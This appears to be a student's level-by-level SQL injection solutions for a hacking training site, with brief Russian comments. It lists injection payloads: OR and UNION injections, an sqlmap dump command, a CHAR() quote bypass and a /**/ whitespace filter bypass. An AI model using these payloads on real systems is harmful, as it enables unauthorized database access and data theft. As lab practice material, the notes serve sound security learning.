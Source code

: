 ### 1
```
SELECT * FROM users WHERE id=12
```
### 2
```
' or id=9 --'
```

### 3
```
' or id=13 -- 
```

### 4
```
' UNION select * from secret  -- 
```

### 5
```
sqlmap -u https://sql.training.hackerdom.ru/5sdfkjsdk.php?text= --random-agent -D sql_level5 --tables _t secrets --columns -dump

```

### 6

```
0 or login=CHAR(103,111,100) 

Нам запретили кавычки поэтому жостаем бога вот таким способом
```

### 7 
```
0/**/union/**/select/**/*/**/from/**/users/**/where/**/login/**/like/**/0x25676525

Запретили вообще всмеЁ поэтому выкручивемся, ибо пробелы можно записывать как /**/ 

```
ы
### 8 
Дальше прям душно. 
```

```